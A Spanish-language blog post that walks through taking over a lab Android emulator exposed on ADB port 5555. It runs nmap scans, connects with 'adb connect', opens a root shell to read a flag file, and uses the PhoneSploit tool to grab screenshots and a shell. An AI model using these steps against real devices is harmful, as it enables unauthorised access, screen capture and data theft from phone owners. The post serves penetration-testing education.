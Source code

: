 ```yaml
---
date: 2023-08-24T00:15:05.000Z
layout: post
comments: true
title: Android Debugging Bridge - 5555
subtitle: 'Hacking por ADB'
description: >-
image: >-
    https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/adbhacking.png
optimized_image: >-
    https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/adbhacking.png
category: ciberseguridad
tags: 
  - hacking
  - exploit
  - adb
  - PhoneSploit
  - shell
author: Felipe Canales Cayuqueo
paginate: true
---
```


"Android Debug Bridge" (ADB) es una herramienta versátil que permite a los desarrolladores y usuarios comunicarse con un dispositivo Android desde una computadora, ya sea para instalar aplicaciones, ejecutar comandos shell, depurar aplicaciones, entre otras funciones.

Es importante tener en cuenta que, aunque ADB es una herramienta poderosa, también puede ser peligrosa si no se usa correctamente o si se deja expuesta al público (por ejemplo, dejando el puerto ADB abierto en un dispositivo). Esta exposición puede permitir a actores maliciosos tomar control del dispositivo, como se mencionó en la pregunta anterior. Por lo tanto, es esencial usar ADB con precaución y conocimiento.

Por ejemplo si en una red detectamos un dispositivo android podemos escanearlo para obtener sus puertos abiertos.

```bash
┌─[root@kali]─[/home/user/android]
└──╼ nmap -Pn -p- --open -n -T5 -vvv 192.168.94.101
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-23 22:20 EDT
Initiating ARP Ping Scan at 22:20
Scanning 192.168.94.101 [1 port]
Completed ARP Ping Scan at 22:20, 0.12s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 22:20
Scanning 192.168.94.101 [65535 ports]
Discovered open port 24810/tcp on 192.168.94.101
Discovered open port 24296/tcp on 192.168.94.101
Discovered open port 5555/tcp on 192.168.94.101
Discovered open port 6379/tcp on 192.168.94.101
Discovered open port 25000/tcp on 192.168.94.101
Discovered open port 24800/tcp on 192.168.94.101
Discovered open port 24297/tcp on 192.168.94.101
Discovered open port 22468/tcp on 192.168.94.101
Completed SYN Stealth Scan at 22:20, 3.86s elapsed (65535 total ports)
Nmap scan report for 192.168.94.101
Host is up, received arp-response (0.00068s latency).
Scanned at 2023-08-23 22:20:13 EDT for 3s
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE      REASON
5555/tcp  open  freeciv      syn-ack ttl 64
6379/tcp  open  redis        syn-ack ttl 64
22468/tcp open  unknown      syn-ack ttl 64
24296/tcp open  unknown      syn-ack ttl 64
24297/tcp open  unknown      syn-ack ttl 64
24800/tcp open  unknown      syn-ack ttl 64
24810/tcp open  unknown      syn-ack ttl 64
25000/tcp open  icl-twobase1 syn-ack ttl 64
MAC Address: 08:00:27:21:F5:48 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 4.32 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
             
```

Una vez detectamos ciertos puertos podemos buscar versiones y obtener más información por medio de nmap, en especial del puerto 5555.

```bash
┌─[root@kali]─[/home/user/android]
└──╼ nmap -sVC -p5555,6379,25000 192.168.94.101                                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-23 22:20 EDT
Nmap scan report for 192.168.94.101
Host is up (0.00053s latency).

PORT      STATE SERVICE       VERSION
5555/tcp  open  freeciv?
| fingerprint-strings: 
|   adbConnect: 
|     CNXN
|_    device::ro.product.name=vbox86p;ro.product.model=Phone;ro.product.device=genymotion;features=stat_v2,cmd,shell_v2
6379/tcp  open  redis         Redis key-value store 3.2.4
25000/tcp open  icl-twobase1?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5555-TCP:V=7.94%I=7%D=8/23%Time=64E6BEAD%P=x86_64-pc-linux-gnu%r(ad
SF:bConnect,89,"CNXN\x01\0\0\x01\0\x10\0\0q\0\0\0\x12\+\0\0\xbc\xb1\xa7\xb
SF:1device::ro\.product\.name=vbox86p;ro\.product\.model=Phone;ro\.product
SF:\.device=genymotion;features=stat_v2,cmd,shell_v2");
MAC Address: 08:00:27:21:F5:48 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 189.93 seconds
               
```

Este puerto hace referencia a "Android Debug Bridge", sin embargo para poder interactuar con este puerto es necesario contar con la herramienta ```adb```.

```bash
┌─[root@kali]─[/home/user/android]
└──╼ apt install adb               
```

Una vez instalado, establecemos una conexión con el sistema android de la siguiente forma:

```bash
┌─[root@kali]─[/home/user/android]
└──╼ adb connect 192.168.94.101:5555
* daemon not running; starting now at tcp:5037
* daemon started successfully
connected to 192.168.94.101:5555               
```

Una vez conectado, podrás ejecutar otros comandos ADB en el dispositivo, como si estuviera conectado directamente a tu computadora a través de un cable USB. En este caso abrimos una interfaz de línea de comandos (shell) para poder interactuar con el sistema.

```sh
┌─[root@kali]─[/home/user/android]
└──╼ adb shell                      
genymotion:/ # ls
acct       charger default.prop init                 init.usb.rc      odm                     plat_property_contexts product   sdcard   system            var                       vendor_property_contexts 
bin        config  dev          init.environ.rc      init.vbox86.rc   oem                     plat_seapp_contexts    rom.trace sepolicy tmp               vendor                    vendor_seapp_contexts    
bugreports d       etc          init.rc              init.zygote32.rc plat_file_contexts      plat_service_contexts  root      storage  ueventd.rc        vendor_file_contexts      vendor_service_contexts  
cache      data    fstab.vbox86 init.usb.configfs.rc mnt              plat_hwservice_contexts proc                   sbin      sys      ueventd.vbox86.rc vendor_hwservice_contexts vndservice_contexts  

genymotion:/ # cd sdcard/                                                                                                                                                                                                                   
genymotion:/sdcard # ls
Alarms Android DCIM Download Movies Music Notifications Pictures Podcasts Ringtones 

genymotion:/sdcard # cd Download/                                                                                                                                                                                                           
genymotion:/sdcard/Download # ls
flag.txt
genymotion:/sdcard/Download # cat flag.txt                                                                                                                                                                                                  
Pwned!!!               
```

### PhoneSploit

[PhoneSploit](https://github.com/prbhtkumr/PhoneSploit) es una herramienta de hacking ético diseñada para explotar dispositivos Android que han dejado expuesto el puerto ADB (Android Debug Bridge) sin autenticación.

#### Instalación

```bash
┌─[root@kali]─[/home/user/android]
└──╼ git clone https://github.com/aerosol-can/PhoneSploit

┌─[root@kali]─[/home/user/android]
└──╼ python3 -m pip install colorama

┌─[root@kali]─[/home/user/android/PhoneSploit]
└──╼ apt install android-tools-adb android-tools-fastboot
```

#### Uso

Una vez instalado lo ejecutamos de la siguiente forma e ingresamos la IP del dispositivo que atacaremos:

```bash
┌─[root@kali]─[/home/user/android/PhoneSploit]
└──╼ python3 PhoneSploit.py


          +hydNNNNdyh+
        +mMMMMMMMMMMMMm+
      `dMMm:NMMMMMMN:mMMd`
      hMMMMMMMMMMMMMMMMMMh
  ..  yyyyyyyyyyyyyyyyyyyy  ..                                     
.mMMm`MMMMMMMMMMMMMMMMMMMM`mMMm.             Thanks for downloading!
:MMMM-MMMMMMMMMMMMMMMMMMMM-MMMM:
:MMMM-MMMMMMMMMMMMMMMMMMMM-MMMM:
:MMMM-MMMMMMMMMMMMMMMMMMMM-MMMM:
:MMMM-MMMMMMMMMMMMMMMMMMMM-MMMM:
-MMMM-MMMMMMMMMMMMMMMMMMMM-MMMM-
 +yy+ MMMMMMMMMMMMMMMMMMMM +yy+
      mMMMMMMMMMMMMMMMMMMm
      `/++MMMMh++hMMMM++/`
          MMMMo  oMMMM
          MMMMo  oMMMM
          oNMm-  -mMNs


[1] Show Connected Devices      [6] Screen record a phone               [11] Uninstall an app                   
[2] Disconect all devices       [7] Screen Shot a picture on a phone    [12] Show real time log of device       
[3] Connect a new phone         [8] Restart Server                      [13] Dump System Info                   
[4] Access Shell on a phone     [9] Pull folders from phone to pc       [14] List all apps on a phone           
[5] Install an apk on a phone   [10] Turn The Device off                [15] Run an app                         


[99] Exit   [0] Clear   [p] Next Page                           

restarting in TCP mode port: 5555
device:genymotion transport_id:1


[+] Enter a phones ip address.(Type 99 to exit)
 -> phonesploit(connect_phone) > 192.168.94.101
already connected to 192.168.94.101:5555

```

Como se puede apreciar en el menú de [PhoneSploit](https://github.com/prbhtkumr/PhoneSploit) nos entregan una serie de utilidades que podremos utilizar, para esta ocasión probaremos las siguiente opciones:

1. **Opción 7 - Tomar una Captura de Pantalla en Tiempo Real**: Esta función permite a los usuarios capturar en tiempo real lo que se muestra en la pantalla del dispositivo objetivo. Es una característica útil para entender las actividades actuales en el dispositivo y para fines de demostración en pruebas de penetración.

    ```bash
    phonesploit(main_menu) > 7
        |
        [+]Enter where you would like the screenshot to be saved.[Default: present working directory]
        ->phonesploit(screenshot) > 
    /sdcard/screen.png: 1 file pulled, 0 skipped. 0.4 MB/s (19460 bytes in 0.046s)
    ```

    Observamos la imagen guardada en nuestra máquina atacante:

    [![adbandroid](/images/adbandroid.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/adbandroid.png)

    [![adbandroid1](/images/adbandroid1.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/adbandroid1.png)

2. **Opción 4 - Obtener una Shell Interactiva**: Esta opción es especialmente poderosa, ya que otorga a los usuarios una shell o terminal interactiva del dispositivo objetivo. A través de esta shell, los usuarios pueden ejecutar comandos, acceder a archivos y, en general, interactuar con el sistema del dispositivo como si estuvieran operando directamente en él.

    ```bash
    phonesploit(main_menu) > 4
    genymotion:/ # cd sdcard/Download/                                                                                                                                                                                                          
    genymotion:/sdcard/Download # cat flag.txt                                                                                                                                                                                                  
    Pwned!!!

    ```

Es importante tener precaución al usar ADB, especialmente sobre redes, ya que conectar a dispositivos desconocidos o dejar tu propio dispositivo abierto a conexiones puede presentar riesgos de seguridad. Por lo general, se recomienda utilizar conexiones ADB por red solo en redes seguras y confiables y deshabilitar la función cuando no esté en uso.
